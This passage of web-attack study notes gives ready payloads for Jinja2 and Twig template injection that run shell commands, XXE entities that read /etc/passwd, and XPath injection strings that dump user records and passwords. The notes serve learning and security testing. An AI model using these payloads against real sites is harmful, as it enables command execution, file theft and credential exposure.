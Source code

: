   IN PYTHON2:
  
  ```jinja2
  {{''.__class__.mro()[2].__subclasses__()[233]('uname -a',shell=True,stdout=-1).communicate()[0]}}
  ```

##### Twig 1.9 (old version)

* if website uses `twig`

  ```twig
  {{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}
  ```

### XML Attacks

* to read any file in xml:

  ```xml
  <!DOCTYPE test [
      <!ENTITY x SYSTEM "file:///etc/passwd">]>
  ```

  so it will save all of the file content in variable x

* let say we have parameter `?xml=<test>hacker</test>`, in which 'hacker' is being reflected in website

  so we can use:

  ```xml
  ?xml=<!DOCTYPE test [<!ENTITY x SYSTEM "file:///etc/passwd">]><test>%26x;</test>
  ```

  %26x; means `&x;` which means to use the reference to x

* xml has xpath expression. imagine XML as a database, and XPATH as an SQL query.

  syntax of XPATH injection:

  - `' and '1'='1` and you should get the same result.
  - `' or '1'='0` and you should get the same result.
  - `' and '1'='0` and you should not get any result.
  - `' or '1'='1` and you should get all results.

* `hacker' or 1=1]%00` to see all the results. NULL BYTE to comment out rest of the things.

* EXAMPLE:

  * to display **child of current node** :

    `' or 1=1]/child::node()%00`

    OUTPUT: `hacker` and `admin` 

    (lists the users)

  * to display **all the child nodes** :

    `hacker' or 1=1]/parent::*/child::node()%00`

    OUTPUT: (lists the users content and password)
